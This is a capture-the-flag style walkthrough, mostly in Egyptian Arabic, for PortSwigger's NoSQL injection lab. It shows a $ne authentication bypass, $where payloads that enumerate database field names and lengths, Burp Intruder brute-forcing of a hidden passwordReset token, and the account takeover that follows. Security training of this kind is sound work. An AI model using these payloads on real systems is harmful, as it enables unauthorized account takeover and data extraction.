 ## Welcome, my friend. Today we will start the [4. No-SQLI lab](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/c0241535-f751-440a-841d-a60eea06c181)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/2f0662da-64e1-4a45-8af6-37e396cfa096)

هنلاحظ فوق في جاجة اسمها ***my account*** ندخل نشوف حوارها ايه!
![image](https://github.com/user-attachments/assets/73820981-cb6d-4e81-8ff2-ff9e07be4faf)

طلعت صفحة تسجيل دخول عادية واحنا عايزين ندخل على حساب carlos بس المشكلة اننا معانا اسم المتسخدم فقط اماالباسورد مش معانا 
ملاحظ تحت في ```forgot password?``` تعالى ندخل نشوفها
![image](https://github.com/user-attachments/assets/107f4eab-e327-471d-a9af-b8ea713f38c8)
تعالى دلوقتي ندخل اسم المستخدم ***carlos***
![image](https://github.com/user-attachments/assets/d6226dc2-600a-48cc-a899-bf33eea78178)
المفروض ان في ميل وصل لكارلس واحنا مش معانا الميل !! طب والعمل تعالى نرجع تاني لصفحة التسجيل وندخل اسم المستخدم ****carlos*** وكلمة السر اي حاجة ونلقط الطلب في البيرب
![image](https://github.com/user-attachments/assets/e7a54ed1-5ce5-49ff-a932-70c924cb3039)

نلاحظ لما كتبنا باسورد مش صحيح طلع تلك الرسالة 
```
Invalid username or password
```

طيب ايه رايك نكتب في الباسورد الحقن ده
```
{"$ne":"non"}
```

![image](https://github.com/user-attachments/assets/d8e5f3e7-37b4-46b6-b375-11c4ff341d1b)

نلاجظ الرسالة اتغيرت بقت كده
```
Account locked: please reset your password
``` 

الرسالة دي تثبتلنا اننا نجحنا في الحقن نبدأ نحاول نطلع بيانات مهمة من السيرفر يلا بينا نبدأ نعرف ال keys في ال database هنبدأ نستخدم operator اسمه which يلا بينا نشوفه سوا
```
"$where":"Object.keys(this)[0].match('^.{0}i.*')"
```


![image](https://github.com/user-attachments/assets/c5652888-cc1d-451d-90dd-f9b27e3edfce)

وده معناه اني بساله اول key واول حرف فيه هو i وظهرلي رسالة ال ***invalid*** وده معناه انه مش حرف ال i وهيطلع حرف ***_***


![image](https://github.com/user-attachments/assets/3070366e-79be-4b47-87ce-a3e2e4dbb51a)

وطبعا عارفين اول متظهر ال Account locked يبقا كده الشرط صح اول حرف هو ال _
عايزين نجيب الحرف التاني هنغير ال 0 ل 1 زي كده
```
"$where":"Object.keys(this)[0].match('^.{1}i.*')"
```

ولو عايزين نجيب ال key التانية هنغير الصفر الاولاني ل 1 زي كده


```
"$where":"Object.keys(this)[1].match('^.{0}i.*')"
```

الحقن ده بيدور على ال key التانية وبيدور على اول حرف فيه

بعد محاولات بالانترودر عرفنا ان السلسلة هتبقا كده 
```
{_id,username,password,email,????}
```

اللغز كله في ال key الخامسة طيب عايزين نحدد عدد حروف الكلمة هنبدأ نستخدم الحقن التالي

```
"$where":"Object.keys(this)[4].length==6"
```

![image](https://github.com/user-attachments/assets/8ecdc3cf-76fe-45e7-9744-99c762bbdfcd)

وبما انو الكلمة ***invalid*** يبقا عدد الحروف مش 6 يبقا نغيرها لغاية منوصل لكلمة ***Account locked***:
![image](https://github.com/user-attachments/assets/60b26258-b2e8-4d3f-9795-c1af43ff7158)

يبقا عدد الحروف 13 عايزين بقا نعرف ايه هما ال 8 حروف دول يبقا نستخدم الانترودر ونستخدم الحقن التالي

```
"$where":"Object.keys(this)[4].match('^.{§0§}§a§.*')"
```

كده احنا هنستخدم الانترودر ونستخدم اول تخمين يكون ع الارقام من 0 ل 12 لان هما 13 حرف وتاني تخمين يكون ***simple list*** وهي من a-z
![image](https://github.com/user-attachments/assets/46246a18-abbc-4e75-9443-05d618c61708)

تعالى نجمع ال 13 حرف هيطلع معانا ```passwordReset```

بعد معرفنا ال Key الخامسة عايزين نعرف محتواها هنعرفه من الحقن التالي
```
"$where":"this.passwordReset.match('^.{0}a.*')"
```

بس الاول عايزين نعرف عدد حروف الكلمة هنبدأ نستخدم الحقن التالي
```
"$where": "this.passwordReset.length==8"
```

![image](https://github.com/user-attachments/assets/f60e0cf9-da82-4554-9585-f0dc24f74f9a)

عدد الحروف مش 8 نكرر لغاية منوصل للرقم الصح
![image](https://github.com/user-attachments/assets/62d50372-b530-49fb-bb09-27f69414e014)
عرفنا ان عدد الحروف هو 16 نبدأ نحدد الحروف من خلال الحقن التالي

```
"$where":"this.passwordReset.match('^.{§0§}§a§.*')"
```

كده احنا هنستخدم الانترودر ونستخدم اول تخمين يكون ع الارقام من 0 ل 12 لان هما 13 حرف وتاني تخمين يكون ***simple list*** وهي من a-z وكذلك من A-Z وايضا من 0 الى 9 ونبدأ الهجوم

![image](https://github.com/user-attachments/assets/7e2b12bc-3342-4740-b3a6-4fda63a8f6cc)

تعالى نجمع ال 16 حرف هيطلع معانا ```9a0d2e4218ef6b27``` جميل اوي
فاكر يا صديقي لما دخلنا في اول التجدي على صفحة اسمها forgot password تعالى نرجعلها ونضيف في ال url البرامتر اللي طلعناه سوا وهو ***passwordReset*** ونضيف قيمته اللي طلعناه سوا برضو اللي هي ***9a0d2e4218ef6b27*** كالتالي

```
/forgot-password?passwordReset=9a0d2e4218ef6b27
```

![image](https://github.com/user-attachments/assets/dfba2b5c-9156-4565-b237-9b9a75922f78)

ودلوقتي يا صديقي تقدر تغير الباسورد لاي باسورد انت تحبه ايه رايك نخليه ***0xT0R***

ودلوقتي تعالى ندخل نسجل دخول باسم المستخدم ***carlos*** وكلمة السر هي ***0xT0R***

![image](https://github.com/user-attachments/assets/a9f8496b-57f6-4c30-ba41-ba726c1123e9)


واخيراااا يا صديقي حلينا اللاب سهل استمتعت بالمشاركة معاك نلتقي قريبا في لاب جديد.
-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/65592ffa-eb93-4e08-b775-e91b4524da0c" width="400" height="350">
</p>









